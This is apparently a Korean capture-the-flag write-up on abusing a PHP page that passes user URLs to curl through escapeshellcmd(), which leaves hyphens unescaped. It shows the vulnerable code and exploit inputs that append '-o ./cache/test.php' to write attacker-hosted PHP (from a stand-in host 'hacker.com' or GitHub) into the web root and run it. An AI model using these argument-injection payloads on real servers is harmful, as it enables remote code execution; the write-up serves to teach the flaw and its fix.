









# 결론은.. RFI
curl 명령어를 대신 실행해주는 웹 서버가 있습니다. 사용자는 url이라는 매개변수를 통해 URL을 입력할 수 있으며, 서버는 해당 URL의 결과를 별도의 캐시 파일로 특정 디렉터리에 저장하여 사용자가 이를 읽을 수 있도록 합니다. 그러나 악의적인 공격자가 악성 명령어를 삽입할 수 있어, 초기 보안 조치로 escapeshellcmd() 함수를 통해 사용자 입력에 대한 1차 필터링을 적용했습니다. 하지만 escapeshellcmd()가 하이픈(-) 필터링을 지원하지 않으므로, 사용자는 입력한 URL 뒤에 -o나 --output ./cache/test.php와 같은 옵션을 추가할 수 있습니다. (즉, 다시말해 서버 내 임의 파일 생성이 가능)

Exploit 예시: 공격자는 <?php system('/flag'); ?>가 포함된 파일을 자신이 운영하는 웹 서버에 저장합니다 (예: http://hacker.com/phpcode). 이후 공격자가 http://hacker.com/phpcode -o ./cache/test.php와 같은 입력을 전송하면 서버는 이 파일을 ./cache/test.php로 저장하게 되고, 최종적으로 http://curl.server/cache/test.php에 접속하면 해당 php코드가 실행되어 공격에 성공하게 됩니다.


# Flow
curl 명령어를 도와주는 웹서버가 있다. 사용자는 URL주소를 입력할 수 있으며 그 결과를 cache라는 디렉토리에 별도로 저장함. 아래는 예시





# 코드를 보면...
```php
$url = $_GET['url'];
if (strpos($url, 'http') !== 0) {
    die('http only !');
} else {
    $result = shell_exec('curl '.escapeshellcmd($_GET['url']));
    $cache_file = './cache/'.md5($url);
    file_put_contents($cache_file, $result);
    echo "<p>cache file: <a href='{$cache_file}'>{$cache_file}</a></p>";
    echo '<pre>'.htmlentities($result).'</pre>';
    return;
}
```
사용자 입력 `url` 에 대한 escapeshellcmd() 검증을 하고 있으나 -에 대한 필터링이 없기 때문에 옵션 사용을 통한 우회가능해보임
ex) -o 또는 --output <file>: 다운로드한 내용을 파일에 저장합니다.

### 참고

PHP의 `escapeshellcmd` 함수는 사용자가 제공한 명령어를 안전하게 처리하기 위해 특수 문자를 이스케이프하여 쉘 인젝션을 방지하는 역할을 합니다. 이 함수는 주로 `exec()`, `system()`, 또는 백틱 연산자를 사용해 외부 명령어를 실행하기 전에 적용됩니다. PHP 소스 코드에서 `escapeshellcmd`는 다음과 같은 방식으로 특수 문자를 이스케이프합니다:

- `&`, `;`, `|`, `*`, `?`, `<`, `>`, `^`, `(`, `)`, `[`, `]`, `{`, `}`, `$`, `\`, 줄바꿈 문자(`\x0A`), 그리고 파일 끝 문자(`\xFF`)와 같은 문자 앞에 역슬래시(`\`)를 추가하여 문자열 그대로 해석되도록 합니다.
- Windows의 경우, `%`와 `!` 문자도 `^` 기호로 이스케이프됩니다.

이러한 처리를 통해 악의적인 명령어를 삽입하려는 시도를 제한하지만, `escapeshellcmd`는 전체 명령어를 이스케이프할 뿐이며 개별 인수를 안전하게 처리하지 않기 때문에 여전히 보안에 취약할 수 있습니다. 따라서 단일 인수의 이스케이프에는 `escapeshellarg()` 사용이 권장됩니다.

`escapeshellcmd`는 특수 문자와 명령어 체인을 분리하지만, 복잡한 명령어 구문이나 특수한 상황에서 완벽한 보호를 제공하지 못할 수 있어, PHP의 `cURL` 라이브러리와 같이 셸을 직접 호출하지 않는 방법을 사용하는 것이 좋습니다.

# RFI 준비
간단히 깃허브에 php코드가 담긴 파일을 만들어줌


## Try 1
```
curl https://raw.githubusercontent.com/...(중략).../phpcode -o ./test.php
```
생성되지 않음 이유는 디렉토리 내 쓰기 권한이 없음


하지만 현재 디렉토리 내 `worldwritable` 디렉토리 확인!


## Try 2
```
curl https://raw.githubusercontent.com/...(중략).../phpcode -o ./cache/test.php
```





끝.